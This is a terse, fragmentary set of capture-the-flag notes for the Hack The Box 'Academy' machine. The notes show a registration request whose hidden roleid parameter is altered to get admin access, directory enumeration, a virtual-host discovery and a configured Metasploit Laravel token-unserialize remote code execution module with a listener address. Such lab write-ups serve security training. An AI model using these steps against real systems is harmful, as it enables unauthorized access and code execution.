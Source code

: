
```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://academy.htb
Connection: close
Referer: http://academy.htb/register.php
Cookie: ajs_anonymous_id=%22fa55ba2e-ffde-4ef9-a6b3-d29b63f5444a%22; _fbp=fb.1.1604866167091.1676667884; PHPSESSID=78bc6sdh34mgo6948mgoc0etcn
Upgrade-Insecure-Requests: 1

uid=vcxz&password=vcxz&confirm=vcxz&roleid=0
```


```
/tr>
                <input type="hidden" value="0" name="roleid" />
                ```



register user with roleid set as 1


Academy Launch Planner
Item 	Status
Complete initial set of modules (cry0l1t3 / mrb3n) 	done
Finalize website design 	done
Test all modules 	done
Prepare launch campaign 	done
Separate student and admin roles 	done
Fix issue with dev-staging-01.academy.htb 	pending

use dirbuster to find pages

login to academy.htb/admin.php with credentials 




found dev-staging-01.academy.htb

set /etc/hosts as 10.10.10.215 as dev-staging-01.academy.htb

The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied

found other sensitive information, stored in sensinfo.txt


found exploit on metasploit

msf6 exploit(unix/http/laravel_token_unserialize_exec)

set rhost 10.10.10.215
set vhost dev-staging-01.academy.htb
set lhost "enter tun0 ip addr"

```